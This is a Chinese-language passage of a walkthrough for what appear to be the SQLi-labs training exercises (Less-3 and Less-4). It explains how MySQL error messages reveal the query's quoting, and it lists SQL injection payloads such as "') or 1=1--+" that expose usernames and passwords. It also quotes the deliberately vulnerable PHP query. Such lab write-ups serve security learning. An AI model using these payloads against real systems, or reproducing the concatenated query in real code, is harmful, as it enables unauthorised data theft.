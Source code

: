     首先看到near和at之间的字符串![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.dx803xz4yl_1534071497.png)，直接将左右的单引号去掉，那么就得到`'1'') LIMIT 0,1 `

    我们明显看到`1`的右边多了一个`'`这是似成相识的感觉吧，后面还有个`)`，那么对应于左边也应该有`(`，这里它意味着，开发者使用的查询是

    ```
    SELECT * FROM users WHERE id=('our input here') LIMIT 0,1
    ```

* 所以我们再用这样的代码来进行注入：

    ```
    ?id=1')--+
    ```

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.4mpstb7m95g_1534071508.png)

    这样一来，我们便可以正常显示用户名和密码了，同时后面查询也已经被注释掉了。

* 在源代码中的 SQL 查询语句

    ```
    $sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
    ```

* 可以成功注入的有：

    ```
    ') or '1'=('1    这里的意思是,不使用注释符号
    ') or 1=1--+     这里使用了注释符号
    ```

* 其余的paylodad和less-1中的一样,只需要将less-1中的`'`更换为`')`即可

### Less-4
* 我们使用`?id=1"`,如下图

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/截图_1538842923)

* 注入代码后，我们得到像这样的一个错误

    ```
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
    ```

* 这里它意味着，代码当中对 id 参数进行了`""` 和 `()` 的包装。 所以我们再用这样的代码来进行注入:

    ```
    ?id=1")--+
    ```

    ![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/截图_1538843121)


* 这样一来，我们便可以得到用户名和密码了，同时后面查询也已经被注释掉了。 在源代码中的 SQL 查询语句，31 行

    ```SQL
    $sql="SELECT * FROM users WHERE id=(“$id”) LIMIT 0,1";
    ```

* 可以成功注入的有:

    ```
    ") or "1"=("1
    ") or 1=1--+
    ```

* 其余的 payload 与 less1 中一样，只需要将 less1 中的`'`更换为`")`


